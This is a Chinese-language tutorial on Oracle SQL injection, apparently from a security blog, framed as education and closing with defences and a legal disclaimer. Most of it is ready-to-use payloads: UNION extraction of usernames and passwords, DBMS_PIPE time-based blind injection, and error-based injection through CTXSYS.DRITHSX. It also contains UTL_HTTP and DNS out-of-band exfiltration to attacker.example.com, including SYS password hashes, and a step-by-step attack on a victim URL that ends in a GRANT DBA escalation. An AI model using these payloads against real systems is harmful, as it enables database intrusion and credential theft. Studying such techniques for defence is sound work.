

## 前言

Oracle 在企业级应用中地位重要。其 SQL 注入手法与 MySQL / MSSQL 存在本质差异 — 语法更严格、内置包更多、攻击面更广。本文系统梳理 Oracle 注入技术，每项均给出可复现的实战示例。

## Oracle 注入核心差异

### 强制 FROM 子句与 DUAL 表

Oracle SELECT 必须带 FROM，无表时使用内置单行单列的 `DUAL`：

```sql
SELECT 'hello';           -- Oracle 报错 ORA-00923
SELECT 'hello' FROM DUAL; -- 正确写法
```

任何原本 `SELECT expression` 的位置都必须追加 `FROM DUAL`。

### 数据类型强制检查

UNION 每列必须类型兼容，否则 `ORA-01790`。用 NULL 作为类型无关的占位符。

### 无 LIMIT / TOP

使用 `ROWNUM` 或 `FETCH FIRST`（12c+）：

```sql
SELECT * FROM users WHERE ROWNUM <= 1;
```

### 内置包扩展攻击面

`UTL_HTTP`、`DBMS_PIPE`、`CTXSYS.DRITHSX`、`DBMS_XMLQUERY` 等 PL/SQL 包为注入提供了出网、盲注甚至命令执行能力。

## UNION 注入

先用 NULL 递增确定列数：

```sql
1' UNION SELECT NULL FROM DUAL--
1' UNION SELECT NULL,NULL FROM DUAL--
1' UNION SELECT NULL,NULL,NULL FROM DUAL--
```

提取核心信息：

```sql
-- 数据库名、版本、当前用户
1' UNION SELECT NULL,(SELECT SYS.DATABASE_NAME FROM DUAL) FROM DUAL--
1' UNION SELECT NULL,(SELECT banner FROM v$version WHERE ROWNUM=1) FROM DUAL--
1' UNION SELECT NULL,(SELECT USER FROM DUAL) FROM DUAL--
```

枚举表名（Oracle 用 `ALL_TABLES` 而非 `information_schema`）：

```sql
1' UNION SELECT NULL,(SELECT table_name FROM all_tables WHERE ROWNUM=1) FROM DUAL--

-- 批量拼接（LISTAGG, 11g+）
1' UNION SELECT NULL,(SELECT LISTAGG(table_name,', ')
  WITHIN GROUP (ORDER BY table_name)
  FROM all_tables WHERE owner='WEBAPP') FROM DUAL--
```

枚举列名与提取数据：

```sql
1' UNION SELECT NULL,(SELECT LISTAGG(column_name,', ')
  WITHIN GROUP (ORDER BY column_id)
  FROM all_tab_columns WHERE table_name='USERS' AND owner='WEBAPP') FROM DUAL--

1' UNION SELECT NULL,(SELECT username||':'||password
  FROM webapp.users WHERE ROWNUM=1) FROM DUAL--
```

### 字符串函数对照

| 功能 | MySQL | Oracle |
|------|-------|--------|
| 单列拼接 | `GROUP_CONCAT(col)` | `LISTAGG(col,',') WITHIN GROUP (ORDER BY ...)` |
| 多列连接 | `CONCAT(a,b)` | `\|\|` 运算符 |
| 换行 | `CHAR(10)` | `CHR(10)` |

## 时间盲注（DBMS_PIPE）

Oracle 无 `SLEEP()`，用 `DBMS_PIPE.RECEIVE_MESSAGE` — 默认对 PUBLIC 可执行：

```sql
-- 延迟 5 秒
1' AND (SELECT DBMS_PIPE.RECEIVE_MESSAGE(('a'),5) FROM DUAL) IS NOT NULL--

-- 条件盲注：若当前用户为 ADMIN 则延迟
1' AND (SELECT CASE WHEN (SELECT username FROM all_users
  WHERE ROWNUM=1)='ADMIN' THEN DBMS_PIPE.RECEIVE_MESSAGE(('x'),3)
  ELSE NULL END FROM DUAL) IS NULL--

-- 逐字符盲注
1' AND (SELECT CASE WHEN SUBSTR(
  (SELECT table_name FROM all_tables WHERE ROWNUM=1),1,1)='U'
  THEN DBMS_PIPE.RECEIVE_MESSAGE(('x'),3)
  ELSE NULL END FROM DUAL) IS NULL--
```

若 `DBMS_LOCK` 已被授权：

```sql
1' AND (SELECT DBMS_LOCK.SLEEP(5) FROM DUAL) IS NULL--
```

## 基于错误消息的注入

### CTXSYS.DRITHSX

Oracle Text 组件的 `DRITHSX.SN` 将用户输入嵌入错误消息，是 Oracle 错误注入最经典的技巧：

```sql
-- 错误输出: ORA-20111: Error in DRITHSX.SN: ADMIN
1' AND (SELECT CTXSYS.DRITHSX.SN(1,
  (SELECT USER FROM DUAL)) FROM DUAL) IS NULL--

-- 嵌套提取表名
1' AND (SELECT CTXSYS.DRITHSX.SN(1,
  (SELECT table_name FROM all_tables WHERE ROWNUM=1)) FROM DUAL) IS NULL--
```

> 依赖：Oracle Text 已安装且 `CTXSYS` 未锁定。12c+ 中 CTXSYS 默认锁定。

### UTL_INADDR 与 DBMS_XMLQUERY 替代

```sql
-- UTL_INADDR DNS 解析错误回显 → ORA-29257: host ADMIN unknown
1' AND (SELECT UTL_INADDR.GET_HOST_NAME(
  (SELECT USER FROM DUAL)) FROM DUAL) IS NULL--

-- DBMS_XMLQUERY 错误回显
1' AND (SELECT DBMS_XMLQUERY.GETXML(
  'SELECT * FROM nonexistent_'||(SELECT USER FROM DUAL)
) FROM DUAL) IS NULL--
```

## 带外通道（Out-of-Band）

### UTL_HTTP 发起 HTTP 请求

```sql
-- 基本带外
1' AND (SELECT UTL_HTTP.REQUEST(
  'http://attacker.example.com/exfil?data='||(SELECT USER FROM DUAL)
) FROM DUAL) IS NULL--

-- 读取密码哈希（需 DBA 访问 sys.user$）
1' AND (SELECT UTL_HTTP.REQUEST(
  'http://attacker.example.com/exfil?pwd='||
  (SELECT password FROM sys.user$ WHERE name='SYS' AND ROWNUM=1)
) FROM DUAL) IS NULL--
```

### UTL_INADDR DNS 带外与条件盲注

```sql
-- DNS 带外
1' AND (SELECT UTL_INADDR.GET_HOST_ADDRESS(
  (SELECT USER FROM DUAL)||'.attacker.example.com'
) FROM DUAL) IS NULL--

-- OOB 条件盲注：仅当密码首字符为 'a' 时触发回连
1' AND (SELECT CASE WHEN SUBSTR(
  (SELECT password FROM webapp.users WHERE ROWNUM=1),1,1)='a'
  THEN UTL_HTTP.REQUEST('http://attacker.example.com/found')
  ELSE NULL END FROM DUAL) IS NULL--
```

## DBMS_XMLQUERY 高级利用

```sql
-- 执行任意 SELECT 并以 XML 返回
1' AND (SELECT LENGTH(DBMS_XMLQUERY.GETXML(
  'SELECT username FROM dba_users WHERE ROWNUM=1'
)) FROM DUAL) > 0--
```

## 注入策略决策流程图



## 完整实战：盲注逐步攻破 Oracle

**目标**：`https://victim.example.com/product?id=101`，无回显、无报错、Oracle 11g。

**Step 1 — 确认注入**

```
?id=101' AND '1'='1'--     → 正常
?id=101' AND '1'='2'--     → 异常，确认布尔盲注
```

**Step 2 — DBMS_PIPE 逐字节提取表名**

```sql
?id=101' AND (SELECT CASE WHEN ASCII(SUBSTR(
  (SELECT table_name FROM all_tables WHERE owner='WEBAPP' AND ROWNUM=1),1,1))=85
  THEN DBMS_PIPE.RECEIVE_MESSAGE(('x'),2)
  ELSE NULL END FROM DUAL) IS NULL--
```

**Step 3** — 同理枚举 `all_tab_columns` 获取列名。

**Step 4 — 提取凭据**

```sql
?id=101' AND (SELECT CASE WHEN ASCII(SUBSTR(
  (SELECT password FROM webapp.admins WHERE ROWNUM=1),1,1))>64
  THEN DBMS_PIPE.RECEIVE_MESSAGE(('x'),2)
  ELSE NULL END FROM DUAL) IS NULL--
```

**Step 5** — 若有堆叠注入且 DBA 权限，尝试提权：

```sql
?id=101'; GRANT DBA TO WEBAPP;--
```

## 常见陷阱

| 陷阱 | 说明 |
|------|------|
| 忘记 DUAL | Oracle SELECT 必须有 FROM |
| UNION 类型不匹配 | 用 NULL 做安全占位符 |
| `\|\|` 在 URL 中被截断 | 改用 CONCAT 或 URL 编码 |
| ROWNUM 子查询行为异常 | 子查询中排序失效，12c+ 用 FETCH FIRST |
| 12c+ CTXSYS 锁定 | CTXSYS 默认锁定，老 payload 直接失效 |
| PL/SQL 需分号 | 堆叠注入需分号但多数注入点不支持 |

## 防御措施

### 绑定变量（根本解法）

```java
PreparedStatement ps = conn.prepareStatement("SELECT * FROM products WHERE id = ?");
ps.setInt(1, userInputId);
```

### 撤销高风险包权限

```sql
REVOKE EXECUTE ON UTL_HTTP   FROM PUBLIC;
REVOKE EXECUTE ON UTL_TCP    FROM PUBLIC;
REVOKE EXECUTE ON UTL_SMTP   FROM PUBLIC;
REVOKE EXECUTE ON UTL_FILE   FROM PUBLIC;
REVOKE EXECUTE ON DBMS_PIPE  FROM PUBLIC;
REVOKE EXECUTE ON CTXSYS.DRITHSX FROM PUBLIC;
```

### 锁定账户与审计

```sql
ALTER USER CTXSYS ACCOUNT LOCK;
ALTER USER MDSYS ACCOUNT LOCK;
AUDIT SELECT ON webapp.admins BY ACCESS;
AUDIT EXECUTE ON UTL_HTTP BY ACCESS;
```

## 总结

Oracle SQL 注入的核心特征：`DUAL` 表是语法基础、`DBMS_PIPE` 提供稳定盲注通道、`UTL_HTTP` 打开带外大门、`CTXSYS.DRITHSX` 是经典错误回显手法。防御应聚焦于**绑定变量**这一根本解法和**包权限控制**这一纵深防线。

## 声明

本文仅供安全研究与教育目的使用。未经授权对非自有系统进行 SQL 注入测试属于违法行为。作者及发布平台不对读者基于本文内容实施的任何未授权行为承担责任。在实际项目中请遵守《网络安全法》等相关法律法规，在获得明确书面授权后方可进行渗透测试。
